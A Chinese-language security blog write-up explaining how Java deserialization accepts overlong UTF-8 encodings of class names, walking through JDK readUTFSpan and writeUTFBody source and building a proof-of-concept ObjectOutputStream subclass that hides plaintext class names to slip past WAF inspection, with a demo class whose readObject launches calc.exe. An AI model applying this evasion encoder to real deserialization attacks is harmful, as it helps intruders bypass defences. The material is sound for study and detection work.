0x01 前言
Java反序列化中应用 @1ue
拜读上面两篇文章后，感觉挺有意思的，跟着1ue师傅的文章再分析了下，这里
UTF-8 Overlong Encoding在java中解决了流量的监测的绕过，让明文类名在流量上不再是ascii中的字符，但是反序列化又能解析成正常数据，绕过waf拦截，但是分析完发现加密对应的值是固定的，不过可以2，3byte交叉混洗。
下文对utf-8在反序列化中的原理进行了解析，然后构造poc并改进poc，实现全字段加密
0x02 UTF-8 Overlong Encoding原理
这里大概解释下原理，具体也可以看p牛文章
utf-8编码
参考这个表格，用于将unicode码转换成UTF-8编码：
| First code point | Last code point | Byte 1 | Byte 2 | Byte 3 | Byte 4 |
|---|---|---|---|---|---|
| U+0000 | U+007F | 0xxxxxxx | |||
| U+0080 | U+07FF | 110xxxxx | 10xxxxxx | ||
| U+0800 | U+FFFF | 1110xxxx | 10xxxxxx | 10xxxxxx | |
| U+10000 | U+10FFFF | 11110xxx | 10xxxxxx | 10xxxxxx | 10xxxxxx |
及当字符uincode编码超过U+007F时，UTF-8会用多个Byte来代表这个字符(U+0080-U+07FF这个范围就2个Byte，其他范围见上表)
这种方式看似也没毛病，但是当我们把本身是
1Byte字符，按照2Byte的格式（上图）构造会发生什么呢
P牛用点号.举了个例子，其unicode编码和ascii编码一致，均为0x2E。按照上表，它只能被编码成单字节的UTF-8字符，但我按照下面的方法进行转换：
0x2E的二进制是10 1110，我给其前面补5个0，变成00000101110- 将其分成5位、6位两组：
00000，101110 - 分别给这两组增加前缀
110，10，结果是11000000，10101110，对应的是\xC0\xAE
0xC0AE并不是一个合法的UTF-8字符，但我们确实是按照UTF-8编码方式将其转换出来的，这就是UTF-8设计中的一个缺陷。
这个问题在python中已经修复过了，但是java任然存在（我觉得java可以utf-8转化后再进行一次范围判断，1byte是小于127的）
那我们进入正题，看看UTF-8 Overlong Encoding在java反序列化中的应用，反序列化存在这个问题是因为反序列化和反序列化将字符转换的方式正是上面utf-8到uincode这种模式进行转换的。
0x03 readObject UTF-8
这里可以跟着1ue师傅文章看
demo方便调试
package UTF8;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
public class evil implements Serializable {
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
ois.defaultReadObject();
try {
Runtime.getRuntime().exec("calc.exe");
} catch (IOException e) {
e.printStackTrace();
}
}
}
开始debug，观测readObject是何时拿取className的
这里1ue师傅给出了调用链
ObjectStreamClass#readNonProxy(ObjectInputStream in)
ObjectInputStream#readUTF()
BlockDataInputStream#readUTF()
ObjectInputStream#readUTFBody(long utflen)
ObjectInputStream#readUTFSpan(StringBuilder sbuf, long utflen)
关键点就在readUTFSpan()，反序列化evil类，打个断点，我们直接看这个函数干了啥
utflen是获取的类名的长度，然后while执行stop-pos(一般就是utflen)次，来解析类名的每个字符存储到cbuf，最后再添加到sbuf，问题就在解析每个字节的时候从注释能一眼发现，是存在UTF-8编码规则的问题，下文结合图片分析问题
private long readUTFSpan(StringBuilder sbuf, long utflen)
throws IOException
{
int cpos = 0;
int start = pos;
int avail = Math.min(end - pos, CHAR_BUF_SIZE);
// stop short of last char unless all of utf bytes in buffer
int stop = pos + ((utflen > avail) ? avail - 2 : (int) utflen);
boolean outOfBounds = false;
try {
while (pos < stop) {
int b1, b2, b3;
b1 = buf[pos++] & 0xFF;
switch (b1 >> 4) {
case 0:
case 1:
case 2:
case 3:
case 4:
case 5:
case 6:
case 7: // 1 byte format: 0xxxxxxx
cbuf[cpos++] = (char) b1;
break;
case 12:
case 13: // 2 byte format: 110xxxxx 10xxxxxx
b2 = buf[pos++];
if ((b2 & 0xC0) != 0x80) {
throw new UTFDataFormatException();
}
cbuf[cpos++] = (char) (((b1 & 0x1F) << 6) |
((b2 & 0x3F) << 0));
break;
case 14: // 3 byte format: 1110xxxx 10xxxxxx 10xxxxxx
b3 = buf[pos + 1];
b2 = buf[pos + 0];
pos += 2;
if ((b2 & 0xC0) != 0x80 || (b3 & 0xC0) != 0x80) {
throw new UTFDataFormatException();
}
cbuf[cpos++] = (char) (((b1 & 0x0F) << 12) |
((b2 & 0x3F) << 6) |
((b3 & 0x3F) << 0));
break;
default: // 10xx xxxx, 1111 xxxx
throw new UTFDataFormatException();
}
}
} catch (ArrayIndexOutOfBoundsException ex) {
outOfBounds = true;
} finally {
if (outOfBounds || (pos - start) > utflen) {
/*
* Fix for 4450867: if a malformed utf char causes the
* conversion loop to scan past the expected end of the utf
* string, only consume the expected number of utf bytes.
*/
pos = start + (int) utflen;
throw new UTFDataFormatException();
}
}
sbuf.append(cbuf, 0, cpos);
return pos - start;
}
这里看到下图，每次while会从
buf数据流里取一个字符和0xFF做&运算，然后b1右移动4位，就是b1去掉右边后4位剩下的二进制的10进制在0-7的范围就是属于1byte的，为什么是这个范围呢10000000是128，0xxxxxxx刚好就是(0-127),熟悉ascii就知道这个范围包含正常可打印字符范围(32-126)
这里还是举个例子吧 eg:
'a'的二进制是01100001，经过>>4运算后为0110，10进制是6会进入case 6:也就是1byte

这里很容易发现2byte可能存在问题，我先不讲这个，这里我先想到的是没有case8:啊！！！那ascii 128怎么办
128 欧元符号
128正式我们的欧元符号€，这里方便分析我直接改了evil类名，发现是可以用的

生成的文件，我们发现€在java中其实对应3byte，因为他的uincode编码是U+20AC，这里按照上面转换表，这里突然加深了对表中xxx的理解
这里xxx一共16位，20AC的二进制也是16位，然后填入后生成的3byte就是他的utf-8，（hhh之前没注意这个，刚刚想16位怎么24位的时候看到这个恍然大悟hhh
U+0800 U+FFFF 1110xxxx 10xxxxxx 10xxxxxx
20AC的二进制0010000010101100 –> utf-8: 11100010 10000010 10101100
及E282AC对应着序列化生成的内容，说明没错，所以不能按照ascii码的思维去想utf-8编码，反序列化中是按照uincode转化为utf-8

既然都到这了，就简单分析下，3byte他是怎么转化的吧
3byte
这里对应的是-30，-126，-84这里存储都是补码，及最高位位1时，补码和原码不同，这里这三最高位都是1，所以这里补码显示出来都是负数和原码不同

这里就是简单分析下代码逻辑，这里识别到第一个字符是1110开头后=case14:,然后这里b3和b2会获取后两位byte，这里pos+0是因为前面获取b1时b1 = buf[pos++] & 0xFF;，pos用的后++所以pos定位符已经向后了一位
if ((b2 & 0xC0) != 0x80 || (b3 & 0xC0) != 0x80) {
这个是检测 b2 b3是不是以10xx xxxx的格式，C0是1100 0000，跟他做&只有10xx xxxx的格式才会==0x80
(char) (((b1 & 0x0F) << 12) |((b2 & 0x3F) << 6) |((b3 & 0x3F) << 0))
然后看到这一段，其实就是恢复€的uincode编码的二进制，这里想成二进制就很好理解了
这里b1 & 0000 1111 得到就是0000 0010然后向左移动12位 0010 0000 0000 0000 这不是就uincode编码二进制前4位么，然后最后进行or运算，不就是得到完整的uincode编码的二进制么，然后10进制是8364再char转换成字符
real 128
但是我们意识到
€只是ascii中的128，并不是uincode中的128，及u+0080，跟我们想要分析的东西貌似有点不一样，所以我们直接看看如果是128，java是怎么生成的
根据getUTFLength()代码我们可以知道128是会走到2byte的
这里发现会生成两个byte 194 和 130 11000010 10000010都是符合转码规则的，并不会出现我们想象中utf-8 128去转uincode没对应case8：的情况，因为存储为utf-8编码的时候根本不是128，想多了hhh（128utf-8本身就不合法）

0x04 开始构造

2byte代码逻辑其实都不用看了，跟3byte差不了多少，就是让xxx里面的东西和我们要构造的二进制一样就行了，但是我们一般构造的都是可打印字符，一般只有8位2进制，这里xxx有11位，简单前面填0就好

这个拿U实验，二进制是0101 0101 填3个0 000 0101 0101，然后按照2byte格式得到 11000001 10010101 及、0xC195

我们将U替换成2byte，看到下图成功实现


但是l没加载出来因为2byte要占用两个长度，而utflen还是原来的长度，所以让其+1就好
其实不难想到既然反序列化是将utf-8转化成uincode，那序列化其实就是将uincode转化成utf-8编码存储的
writeUTF
我们简单调试下就能发现writeUTF这个方法是用来转化编码存储的
public void writeUTF(String s) throws IOException {
writeUTF(s, getUTFLength(s));
}
void writeUTF(String s, long utflen) throws IOException {
if (utflen > 0xFFFFL) {
throw new UTFDataFormatException();
}
writeShort((int) utflen);
if (utflen == (long) s.length()) {
writeBytes(s);
} else {
writeUTFBody(s);
}
}
这里我想构造的是2byte的数据，所以这里if (utflen == (long) s.length()) {肯定是false，进入writeUTFBody
private void writeUTFBody(String s) throws IOException {
int limit = MAX_BLOCK_SIZE - 3;
int len = s.length();
for (int off = 0; off < len; ) {
int csize = Math.min(len - off, CHAR_BUF_SIZE);
s.getChars(off, off + csize, cbuf, 0);
for (int cpos = 0; cpos < csize; cpos++) {
char c = cbuf[cpos];
if (pos <= limit) {
if (c <= 0x007F && c != 0) {
buf[pos++] = (byte) c;
} else if (c > 0x07FF) {
buf[pos + 2] = (byte) (0x80 | ((c >> 0) & 0x3F));
buf[pos + 1] = (byte) (0x80 | ((c >> 6) & 0x3F));
buf[pos + 0] = (byte) (0xE0 | ((c >> 12) & 0x0F));
pos += 3;
} else {
buf[pos + 1] = (byte) (0x80 | ((c >> 0) & 0x3F));
buf[pos + 0] = (byte) (0xC0 | ((c >> 6) & 0x1F));
pos += 2;
}
} else { // write one byte at a time to normalize block
if (c <= 0x007F && c != 0) {
write(c);
} else if (c > 0x07FF) {
write(0xE0 | ((c >> 12) & 0x0F));
write(0x80 | ((c >> 6) & 0x3F));
write(0x80 | ((c >> 0) & 0x3F));
} else {
write(0xC0 | ((c >> 6) & 0x1F));
write(0x80 | ((c >> 0) & 0x3F));
}
}
}
off += csize;
}
}
在这里代码我们很容易就发现是将uincode编码转化成utf-8编码的格式，只是有范围判定，我当时第一反应就是重写这个方法，把这个范围改了，不就能让java帮我们2byte编码了么hh
还有个点就是长度 通过getUTFLength()返回，也跟范围有关，那把这个也重写不就行啦hh
long getUTFLength(String s) {
int len = s.length();
long utflen = 0;
for (int off = 0; off < len; ) {
int csize = Math.min(len - off, CHAR_BUF_SIZE);
s.getChars(off, off + csize, cbuf, 0);
for (int cpos = 0; cpos < csize; cpos++) {
char c = cbuf[cpos];
if (c >= 0x0001 && c <= 0x007F) {
utflen++;
} else if (c > 0x07FF) {
utflen += 3;
} else {
utflen += 2;
}
}
off += csize;
}
return utflen;
}
poc构造
其实我们最大的问题就是不能直接重写writeUTFBody方法（这里的时候还不会agent！_!），因为他是private且是ObjectOutputStream的子类
我们看到writeUTFBody if会判断范围然后进行对应byte的编码，然后注意下这里数据少（<1024）的时候不会执行下方else中write()方法，哪里会进行写入呢，我们根据调用栈往上查找

见下图，writeClassDescriptor(desc);就是上面执行写入buf的操作。而bout.setBlockDataMode(true);里的drain()函数才是真正写入数据的时候

drain()
void drain() throws IOException {
if (pos == 0) {
return;
}
if (blkmode) {
writeBlockHeader(pos);
}
out.write(buf, 0, pos);
pos = 0;
}
这里out.write才是真正进行写入操作的地方。
buf
还记得我们的问题么，不能直接重写writeUTFBody方法，那能不能设置这个buf值呢？
反射？其实不行，因为我们要在执行drain()前一刻覆盖这个值，过早会被writeUTFBody会被覆盖，过晚也不行。
但是天无绝人之路！！我们回想到
writeUTFBody中下面一个else里不是有write操作么？这个是什么逻辑呢
if (pos <= limit) {
if (c <= 0x007F && c != 0) {
buf[pos++] = (byte) c;
} else if (c > 0x07FF) {
buf[pos + 2] = (byte) (0x80 | ((c >> 0) & 0x3F));
buf[pos + 1] = (byte) (0x80 | ((c >> 6) & 0x3F));
buf[pos + 0] = (byte) (0xE0 | ((c >> 12) & 0x0F));
pos += 3;
} else {
buf[pos + 1] = (byte) (0x80 | ((c >> 0) & 0x3F));
buf[pos + 0] = (byte) (0xC0 | ((c >> 6) & 0x1F));
pos += 2;
}
} else { // write one byte at a time to normalize block
if (c <= 0x007F && c != 0) {
write(c);
} else if (c > 0x07FF) {
write(0xE0 | ((c >> 12) & 0x0F));
write(0x80 | ((c >> 6) & 0x3F));
write(0x80 | ((c >> 0) & 0x3F));
} else {
write(0xC0 | ((c >> 6) & 0x1F));
write(0x80 | ((c >> 0) & 0x3F));
}
}
我们可以看到超过limit会进入到这个else，limit是1204-3，我们看看write干了啥

可以看到当pos超过MAX_BLOCK_SIZE执行了drain(),就是进行写入，然后pos归0，然后会把(byte) b记录到BlockDataOutputStream.buf中这里不就可以设置buf变量的值了么，但是这个是BlockDataOutputStream类的方法，我们也调不了呀
但是ObjectOutputStream也有个write可以帮我们调用BlockDataOutputStream的write了hhh
public void write(int val) throws IOException {
bout.write(val);
}
那我们可以直接通过ObjectOutputStream.write来将我们要写入的值记录到BlockDataOutputStream.buf中，然后drain()的时候进行写入。
心理路程，挺乱的可以不看
不能直接重写
writeUTFBody，但是我们可以重写writeUTF他是ObjectOutputStream方法且是public，然后把writeUTF中需要吊用的方法都可以重新构造成我们的方法（getUTFLength，writeUTFBody）//最开始我以为是重写了后面发现其实不是，刚开始我以为就修改下范围就搞定了，发现其实不是这么事，最初的poc（就是下面poc1把注释取消的代码）并没有进行类名的写入，继续调试了下代码发现writeBytes和writeUTFBody中其实并不会执行真正的write操作，只是把值记录到BlockDataOutputStream.buf变量中，而我poc的类也只是记录到MyObjectOutputStream.buf,而不是BlockDataOutputStream中的buf这也是执行drain()的时候，其实buf里没有值hhh，所以没有写入
poc1
这里我把2处小于7F的范围改成，c <= 0x0020 && c != 0，20对应的是32，空白符就1byte的格式，大于32的就采用2byte，实现我们的加密。
poc中只有writeUTF(String s)是重写，其他都是我们自己构建的这些方法，因为父类没有这些方法，而writeUTF(String s, long utflen)是因为包的原因其实也不是重写。
package UTF8;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.io.UTFDataFormatException;
public class MyObjectOutputStream extends ObjectOutputStream {
private static final int MAX_BLOCK_SIZE = 1024;
/** maximum data block header length */
private final char[] cbuf = new char[CHAR_BUF_SIZE];
/** (tunable) length of char buffer (for writing strings) */
private static final int CHAR_BUF_SIZE = 256;
private int pos = 0;
private final byte[] buf = new byte[MAX_BLOCK_SIZE];
public MyObjectOutputStream(OutputStream out) throws IOException {
super(out);
}
public void writeUTF(String s) throws IOException {
writeUTF(s, getUTFLength(s));
}
void writeUTF(String s, long utflen) throws IOException {
if (utflen > 0xFFFFL) {
throw new UTFDataFormatException();
}
writeShort((int) utflen);
if (utflen == (long) s.length()) {
writeBytes(s);
} else {
writeUTFBody(s);
}
}
private void writeUTFBody(String s) throws IOException {
int limit = MAX_BLOCK_SIZE - 3;
int len = s.length();
for (int off = 0; off < len; ) {
int csize = Math.min(len - off, CHAR_BUF_SIZE);
s.getChars(off, off + csize, cbuf, 0);
for (int cpos = 0; cpos < csize; cpos++) {
char c = cbuf[cpos];
// if (pos <= limit) {
// if (c <= 0x0020 && c != 0) {
// buf[pos++] = (byte) c;
// } else if (c > 0x07FF) {
// buf[pos + 2] = (byte) (0x80 | ((c >> 0) & 0x3F));
// buf[pos + 1] = (byte) (0x80 | ((c >> 6) & 0x3F));
// buf[pos + 0] = (byte) (0xE0 | ((c >> 12) & 0x0F));
// pos += 3;
// } else {
// buf[pos + 1] = (byte) (0x80 | ((c >> 0) & 0x3F));
// buf[pos + 0] = (byte) (0xC0 | ((c >> 6) & 0x1F));
// pos += 2;
// }
// } else { // write one byte at a time to normalize block
if (c <= 0x0020 && c != 0) {
write(c);
} else if (c > 0x07FF) {
write(0xE0 | ((c >> 12) & 0x0F));
write(0x80 | ((c >> 6) & 0x3F));
write(0x80 | ((c >> 0) & 0x3F));
} else {
write(0xC0 | ((c >> 6) & 0x1F));
write(0x80 | ((c >> 0) & 0x3F));
}
// }
}
off += csize;
}
}
long getUTFLength(String s) {
int len = s.length();
long utflen = 0;
for (int off = 0; off < len; ) {
int csize = Math.min(len - off, CHAR_BUF_SIZE);
s.getChars(off, off + csize, cbuf, 0);
for (int cpos = 0; cpos < csize; cpos++) {
char c = cbuf[cpos];
if (c >= 0x0001 && c <= 0x0020) {
utflen++;
} else if (c > 0x07FF) {
utflen += 3;
} else {
utflen += 2;
}
}
off += csize;
}
return utflen;
}
}
package UTF8;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
public class test {
public static void main(String[] args) throws Exception {
evil evil = new evil();
FileOutputStream fileOut = new FileOutputStream("1obj.bin");
MyObjectOutputStream out = new MyObjectOutputStream(fileOut);
out.writeObject(evil);
out.close();
FileInputStream fileIn = new FileInputStream("1obj.bin");
ObjectInputStream in = new ObjectInputStream(fileIn);
in.readObject();
in.close();
}
}
我们可以看到生成数据流已经没有可打印字符了
�� sr UTF8.evil����4�� xp //这个是正常生成的可以看到明文类名
